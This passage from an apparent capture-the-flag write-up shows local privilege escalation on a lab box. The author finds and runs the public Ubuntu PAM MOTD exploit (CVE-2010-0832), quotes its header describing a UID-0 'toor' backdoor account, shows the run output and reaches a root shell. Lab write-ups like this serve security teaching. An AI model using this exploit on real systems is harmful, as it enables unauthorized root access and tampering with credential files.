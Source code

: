 A quick Google of "motd.legal-displayed exploit" finds [this](https://www.exploit-db.com/exploits/14339). Gives a script to exploit PAM 1.1.0 which is used here for the MOTD:

```text
Exploit Title: Ubuntu PAM MOTD local root
# Date: July 9, 2010
# Author: Anonymous
# Software Link: http://packages.ubuntu.com/
# Version: pam-1.1.0
# Tested on: Ubuntu 9.10 (Karmic Koala), Ubuntu 10.04 LTS (Lucid Lynx)
# CVE: CVE-2010-0832
# Patch Instructions: sudo aptitude -y update; sudo aptitude -y install libpam~n~i
# References: http://www.exploit-db.com/exploits/14273/ by Kristian Erik Hermansen
#
# Local root by adding temporary user toor:toor with id 0 to /etc/passwd & /etc/shadow.
# Does not prompt for login by creating temporary SSH key and authorized_keys entry.
```

Looks good so save to file on box and run:

```text
www-data@popcorn:/tmp$ bash /tmp/pam_exploit.sh

[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: <-- enter toor here
```

I'm now on box as root user so can get the flag:

```text
root@popcorn:/tmp# cat /root/root.txt
```
